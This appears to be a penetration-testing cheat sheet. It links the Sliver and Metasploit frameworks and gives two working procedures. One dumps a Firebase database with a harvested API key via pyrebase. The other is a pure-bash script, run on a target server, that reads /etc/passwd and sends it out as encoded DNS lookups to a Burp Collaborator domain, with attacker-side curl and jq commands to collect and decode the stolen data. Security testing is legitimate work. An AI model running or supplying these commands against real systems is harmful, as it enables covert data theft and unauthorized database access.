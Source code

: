 https://github.com/BishopFox/sliver
<br># Sliver is an open source cross-platform adversary emulation/red team framework, it can be used by organizations of all sizes to perform security testing. Sliver's implants support C2 over Mutual TLS (mTLS), WireGuard, HTTP(S), and DNS and are dynamically compiled with per-binary asymmetric encryption keys.

https://github.com/rapid7/metasploit-framework
<br># The Metasploit Framework (MSF) is far more than just a collection of exploits–it is also a solid foundation that you can build upon and easily customize to meet your needs.

https://cloud.hacktricks.xyz/pentesting-cloud/gcp-pentesting/gcp-services/gcp-databases-enum/gcp-firebase-enum
https://blog.assetnote.io/bug-bounty/2020/02/01/expanding-attack-surface-react-native/
<br># Extract data from Firebase with apikey.
```
$ python3 -m venv venv
$ source venv/bin/activate
$ python3 -m ensurepip
$ pip3 install pyrebase4
$ python3
>>> import pyrebase
>>> config = {"apiKey":"AIz...","authDomain":"project.firebaseapp.com","databaseURL":"https://project.firebaseio.com"...}
>>> firebase = pyrebase.initialize_app(config)
>>> db = firebase.database()
>>> print(db.get())
```

<br># Pure bash exfiltration over dns
<br>## Execute on target server (replace YOURBCID)
```
CMD="cat /etc/passwd"
HID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
CMDID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
BC="YOURBCID.burpcollaborator.net"
D="$HID-$CMDID.$BC"
M=$($CMD 2>&1); T=${#M}; O=0; S=30; I=1; while [ "${T}" -gt "0" ]; do C=$(echo ${M:${O}:${S}}|base64); C=${C//+/_0}; C=${C//\//_1}; C=${C//=/_2}; host -t A $I.${C}.$D&>/dev/null; O=$((${O}+${S})); T=$((${T}-${S})); I=$((I+1)); done
```

<br>## Execute on attacker machine (replace YOURBIID) and extract Burp Collaborator results
```
BCPURL="https://polling.burpcollaborator.net/burpresults?biid=YOURBIID"
RESULTS=$(curl -sk "${BCPURL}")
```
<br>## Get IDs available
```
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep --color=never "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | sed -r 's/^[[:digit:]]+\.[^.]+\.([^.]+)\..*/\1/g' | sort -u
```
<br>## Update ID and get command result (repeat for each ID)
```
ID="xxxxx-xxxxx"
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | egrep "$ID" | sort -t. -k3 -g | sed -r 's/^[[:digit:]]+\.([^.]+)\..*/\1/g' | while read i; do i=${i//_0/+}; i=${i//_1/\/}; i=${i//_2/=}; echo ${i} | base64 -d; done
```
